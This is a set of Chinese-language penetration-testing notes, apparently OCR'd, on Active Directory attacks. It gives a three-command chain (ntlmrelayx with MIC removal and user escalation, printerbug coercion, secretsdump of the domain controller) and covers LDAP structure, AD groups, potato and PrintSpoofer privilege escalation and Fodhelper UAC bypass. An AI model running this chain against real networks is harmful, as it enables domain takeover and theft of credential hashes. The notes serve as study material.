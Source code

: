 ​	漏洞：关闭NTLM三部曲里面签名需要删除验证的MIC，只需要在在FLAG里面关闭negotiate Key Exchange、version、sign三个，再删除MIC就不会报错。（还有flag 为02本来应该验证，实际上没有验证的漏洞）

~~~shell
#SMB特性：自动填充身份认证。
# 复现
	需要client有一个高权限（如exchange），在隶属于里面加入domain admins组
1、impacket-ntlmrelayx --remove-mic --escalate-user kbsuser -t ldap://192.168.152.132 -smb2support
（python3 ntlmrelayx.py --remove-mic --escalate-user kbsuser -t ldap://DCIP -smb2support）
2、python3 printerbug.py qax.com/kbsuser@192.168.152.130 192.168.152.129（win10 --> kali）
3、impacket-secretsdump qax.com/kbsuer@192.168.152.132 -just-dc
#
1、为了解决smb签名的问题，使用了ldap
2、为了解决ntlm签名的问题，删除了MIC
~~~



# 四、LDAP

​		轻量目录访问协议（lightweight Directory access Protocol）。是设计用来访问目录数据库的一个协议。

​		目录服务数据库也是一种数据库，这种数据库相对于我们数值的关系型数据库，主要有以下几个方面的特点：1、树状结构组织数据，类似文件目录一样。2、它是为查询、浏览和搜索而有画的数据库，也就是LDAP的可读性特别强，但是写性能差，而且还步支持事物处理、回滚等复杂功能。

基础知识：

~~~shell
# 1、active Directory 预定义了三个Naming Context：（NC：naming Context）
	Domain NC、Configuration NC、Schema NC（schema实例化：属性、类）
# 2、Configuration NC：【RDN（relative Distinguished Name，相对可分辨名字）】
	CN=Builtin（内置本地安全组的容器，包括管理员，域用户和账号操作员等等）
	CN=computers（机器用户的容器，包括加入域的所有机器）
	CN=domain controllers（域控制器的容器，包括域内所有域控）
	CN=system（各种预配置对象的容器。包括信任对象，DNS对象，组策略对象）
	CN=users（用户和组对象的默认容器）
	OU=qax（自定义的组）
# 3、组
1、Administrators：域本地组。具备系统管理员的权限，拥有对真个域最大的控制权，可以执行整个域的管理任务。administrators包括domain admins和enterprise admins
	2、Domain Admins：全局组。域管组
	3、Enterprise Admins：通用组。在林中，只有林根域才有这个组，但是其它域默认会把这个组加入到本域的administrators里面去。
4、Domain Users：全局组。
//组是权限的集合，OU（organization Unit）是管理对象的集合。
# 4、名词了解：
	1、windows访问控制模型（4种）：明确的拒绝、明确的允许、继承的拒绝和否人
DACL 访问控制list
	2、SACL
	3、DACL：访问控制list
	4、SACL的作用是记录访问成功与否，SACL也是由一条一条的ACE构成，每条ACE的内容是某个用户访问成功/失败某个权限。
	5、Adfind.exe：域内信息查询工具
	6、SDDL:(Security Descriptor Definition Language)是一种用于定义 Windows 安全描述符的语言。
	7、https://github.com/BeichenDream/BadPotato
	8、printspoofer：printspoofer是一种Windows命令行工具，可用于欺骗系统管理员并提升权限。
	9、socat：socat是一个功能强大的网络工具，它可以在不同的网络套接字之间建立连接。socat最常见的问题是如何使用它来实现端口转发和代理。
# 5、UAC bypass：UAC（user account control，用户账户控制）是一种windows安全功能。
	如果用户想要以提升的权限模式（换句话说具有管理级别权限）运行进程，那么 UAC 将显示一个对话框以确认进程是否被授权运行。每当执行具有管理级别权限的任何应用程序时，大多数人可能都看到过此对话框。
	绕过的方法在Windows Defender关闭的情况下使用某些二进制文件的自动提升功能，通过命令提示符或反向shell获取GUI shell
绕过：
	1、基于 GUI 的绕过：Run-->msconfig
	2、使用 Fodhelper 绕过：Run-->Fodhelper.exe：这是一个 Windows 默认可执行文件，需要用于管理可选 Windows 功能、其他语言等。它也是一个自动可执行程序。这意味着 UAC 不会提示管理员执行提升的任务。与上面使用msconfig的情况不同，如果对GUI有限制，我们就可以执行。 
	3、绕过 Windows Defender 
# 6、危险的特权：拿到shell之后把权限提升到system
1、SeImpersonatePrivilege/ SeAssignPrimaryTokenPrivilege：拿到shell之后把权限提升到system
~~~